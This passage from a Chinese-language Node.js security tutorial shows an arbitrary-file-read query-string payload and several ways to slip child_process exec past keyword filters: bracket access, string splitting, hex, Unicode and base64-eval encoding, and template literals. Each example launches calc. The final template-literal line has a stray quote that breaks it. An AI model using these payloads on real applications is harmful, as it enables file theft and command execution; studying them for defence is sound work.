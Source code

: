 payload

```plain
?file[href]=a&file[origin]=1&file[protocol]=file:&file[hostname]=&file[pathname]=读取的文件
```

### Bybass

#### 过滤`.`

通过我们上面对于nodejs命令执行的学习，我们知道在NodeJs中调用模块是通过“.”来实现的，假如说我们过滤了`.`，我们可以通过`[]`实现对于模块的调用

```plain
require('child_process')["exec"]('calc');
//require('child_process').exec('calc');
```

#### 拼接绕过

对于过滤一些关键字，我们可以使用拼接的方法进行绕过

```plain
require('child_process')["ex"+"ec"]('calc');
//require('child_process')["exec"]('calc');
```

#### 编码绕过

> 十六进制编码绕过

JavaScript是支持16进制作为字符串使用的，我们可以使用十六进制进行绕过

```plain
require('child_process')["\x65\x78\x65\x63"]('calc');
//require('child_process')["exec"]('calc');
```

> unicode编码绕过

JavaScript除了支持十六进制以外还支持Unicode编码作为字符串使用

```plain
require('child_process')["\u0065\u0078\u0065\u0063"]('calc');
//require('child_process')["exec"]('calc');
```

> base64编码绕过

```plain
eval(Buffer.from('cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpWyJleGVjIl0oJ2NhbGMnKTs=','base64').toString());
//require('child_process')["exec"]('calc');
```

#### ES6模版绕过

我们也可以使用ES6模板绕过，反引号后面加入模板

```plain
require('child_process')[`${`${`exe`}cSync`}`"]('calc');
```
